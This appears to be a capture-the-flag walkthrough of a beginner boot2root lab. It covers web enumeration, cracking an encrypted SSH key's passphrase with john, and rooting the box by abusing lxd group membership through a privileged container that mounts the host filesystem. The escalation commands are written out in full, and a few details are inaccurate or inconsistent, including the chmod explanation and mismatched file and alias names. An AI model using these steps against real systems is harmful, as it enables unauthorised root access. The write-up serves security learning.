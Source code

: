 > An Easy Boot2Root box for beginners
#### User Flag
1. Started off with basic enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. Navigating to the webpage, I clicked around until I found the `/uploads` path
3. I also found the username `john` in the source code
4. This contained an image, dictionary list, and hacker manifesto
5. I ran steg checks on the image but came up with nothing so I moved on from that
6. Next I ran gobuster to look for other paths `gobuster dir -u 10.10.239.127 -w /usr/share/dirb/wordlists/common.txt`
7. That revealed `robots.txt` which also directs you tot eh `/uploads` path, as well as `/secret`
8. The secret path contained an rsa private key, which I assumed was to use for ssh
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
[ ETC ]
```
9. I downloaded the key and ran `chmod 600` to make it executable
10. To log in to ssh with the private key, we need the passphrase
11. I used `ssh2john secretKey` to convert the hash to a crackable format first
12. Then I ran `john gs-rsa --wordlist="dict.lst"` to crack the passphrase
```shell
└─$ ssh -i secretKey john@10.10.239.127 
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)
```
13. The user flag was in john's home directory
#### Priv Escalation
1. Since I can't run `sudo -l` with no password, I had to find a differnt method to gain root
2. First I checked `/etc/crontab` but that didn't contain anything
3. Running `id` on john, I found an interesting group called `lxd`
```shell
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
4. lxd deals with linux containers similar to an application like docker
5. To exploit this, I downloaded `lxd-alpine-builder` on my attack machine
```shell
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git
└─$ cd lxd-alpine-builder 
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```
6. Now we have to build it (I chose i686 architecture to be safe but it probably should work with x86, just build without -a)
```shell
└─$ sudo ./build-alpine -a i686
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  alpine-v3.19-i686-20240410_2128.tar.gz  build-alpine  LICENSE  README.md
```
7. To transfer the image, I launched a python server on my attack machine with `python3 -m http.server`
```shell
john@exploitable:~$ wget http://10.2.91.174:8000/alpine-v3.19-i686-20240410_2128.tar.gz
john@exploitable:~$ lxc image import alpine-v3.19-i686-20240410_2128.tar.gz --alias alp
Image imported with fingerprint: 9040fc16bbd675e014c9bfe0bcad601e2b8f54e93a1c109d912fc829030d1f5b
```
8. You can check the image specifications like architecture and size with `lxc image list`
9. Now we just create the instance as privileged, add access to the host device, and launch
```shell
john@exploitable:~$ lxc init alpine gameserv -c security.privileged=true
Creating gameserv
john@exploitable:~$ lxc config device add gameserv host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to gameserv
john@exploitable:~$ lxc start gameserv
john@exploitable:~$ lxc exec gameserv /bin/sh
~ # whoami
root
```
10. The root flag wasn't in `/root` (evil if you ask me) so I dug around manually for about 25 seconds before just using find
```shell
/ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
/ # cd mnt/root/root/
/mnt/root/root # ls
root.txt
```
12. Done!

